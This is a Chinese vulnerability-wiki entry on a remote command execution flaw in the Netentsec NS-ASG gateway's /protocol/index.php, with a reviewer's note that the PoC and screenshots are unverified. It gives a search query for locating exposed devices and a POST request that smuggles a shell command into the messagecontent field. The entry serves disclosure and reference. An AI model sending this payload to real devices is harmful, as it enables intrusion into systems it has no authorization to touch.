





# 网康 NS-ASG安全网关 index.php 远程命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：网康NS-ASG
- 本文讨论：protocol/index.php getsysdatetime messagecontent
- 版本、权限与配置前提：协议接口可达，源码可由文件读取取出；版本未列
- 资料类型：网关命令注入源码图析；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- HTTP仅两行片段且源码全图，鉴权/代码路径不可文本复核
- 与615同请求，增加源码截图证据值得保留

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 截图代码、执行输出与读取链来源待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

网康 NS-ASG安全网关 index.php文件存在远程命令执行漏洞，攻击者通过构造特殊的请求包可以获取服务器权限

## 漏洞影响

```
网康 NS-ASG安全网关
```

## 网络测绘

```
title=="网康 NS-ASG 应用安全网关"
```

## 漏洞复现

登录页面



存在漏洞的文件为 /protocol/index.php ，通过文件读取可以获取到源码





通过构造请求包进行命令拼接漏洞执行命令

```
POST /protocol/index.php
  
jsoncontent={"protocolType":"getsysdatetime","messagecontent":"1;id>1.txt;"}
```





---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
